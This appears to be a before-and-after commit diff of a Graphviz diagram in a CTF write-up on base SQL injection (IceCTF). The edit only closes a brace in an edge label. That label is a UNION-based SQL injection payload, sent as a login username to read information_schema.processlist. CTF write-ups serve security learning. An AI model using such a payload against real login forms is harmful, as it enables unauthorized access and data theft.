

Before and after one commit to joizel/ctf_writeup: the diagram in docs/web/Base SQL Injection/[IceCTF] Solve.rst, drawn with Graphviz. The commit also changed other lines of this file and 2 other files, not shown here.

```diff
--- a/docs/web/Base SQL Injection/[IceCTF] Solve.rst
+++ b/docs/web/Base SQL Injection/[IceCTF] Solve.rst
@@ -7,21 +7,21 @@
 .. graphviz::
 
     digraph G {
         rankdir="LR";
         node[shape="point"];
         edge[arrowhead="none"]
 
         {
             rank="same";
             "client"[shape="plaintext"];
             "client" -> step0 -> step2 -> step4;
         }
 
         {
             rank="same";
             "server"[shape="plaintext"];
             "server" -> step1 -> step3 -> step5;
         }
-        step0 -> step1[label="post_data: {username=' union select 1,2,info from information_schema.processlist-- -",arrowhead="normal"];
+        step0 -> step1[label="post_data: {username=' union select 1,2,info from information_schema.processlist-- -}",arrowhead="normal"];
         step3 -> step2[label="login success",arrowhead="normal"];
     }
```
